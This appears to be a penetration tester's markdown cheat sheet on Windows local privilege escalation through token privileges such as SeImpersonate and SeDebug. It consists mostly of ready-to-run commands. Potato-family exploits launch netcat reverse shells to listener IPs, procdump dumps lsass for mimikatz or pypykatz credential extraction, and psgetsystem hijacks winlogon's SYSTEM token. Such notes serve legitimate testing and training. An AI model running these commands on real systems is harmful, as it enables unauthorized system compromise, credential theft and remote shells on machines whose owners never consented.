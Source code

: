 ```yaml
---
tags:
  - Local
  - Privilege-Escalation
  - SeAssignPrimaryPrivilege
  - SeBackupPrivilege
  - SeCreateTokenPrivilege
  - SeDebugPrivilege
  - SeImpersonatePrivilege
  - SeLoadDriverPrivilege
  - SeRestorePrivilege
  - SeTakeOwnershipPrivilege
  - SeTcbPrivilege
  - AD
---
```

## identify
---
```batch
whoami /priv
```
Or sysinternals

[https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
```powershell
accesschk.exe -p
```

## Exploit
---
#### SeImpersonate & SeAssignPrimaryToken
Windows Server 2016 and under: 
**JuicyPotato** [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)
```cmd
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.15.119 5555 -e cmd.exe" -t *
```
Windows Server 2019 and on:
**PrintSpoofer**: [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
Spawn shell over new process *need stable shell*
```cmd
PrintSpoofer.exe -i -c cmd.exe
```
Spawn revshell
```cmd
PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```
**RoguePotato:** [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)
```
RoguePotato.exe -r <IP> -e "C:\Windows\Tasks\nc.exe <IP> <port> -e cmd.exe" -l 9999
```
**SweetPotato**: [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)
```cmd
SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <ENCODED REVSHELL>"
```
OR
```cmd
SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"
```
**GodPotato**: [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
```cmd
GodPotato.exe -cmd "cmd /c whoami"
```
```cmd
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```

#### SeDebug
___
**Dumping lsass**

```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
or with task manager
![](../../../../../assets/Pasted%20image%2020250719100303.png)

read with mimikatz or pypykatz

```plaintext
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

```
pypykatz lsa minidump lsass.dmp
```

**Elevating to SYSTEM**

[https://github.com/decoder-it/psgetsystem](https://github.com/decoder-it/psgetsystem)

Using psgetsystem we can launch a child process that inherits the token of the parent process.


```
PS C:\tools> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

We can target the `winlogon.exe` service because its running as SYSTEM.

We can either 1. launch cmd.exe as SYSTEM if we have GUI access or 2. execute an exe to get a reverse shell, add ourselves to a group, or anything else.


```powershell
import-module .\psgetsys.ps1
ImpersonateFromParentPid -ppid 612 -command C:\Windows\Tasks\elev.exe
```

that process will launch with the integrity of the parent. (Hopefully SYSTEM)
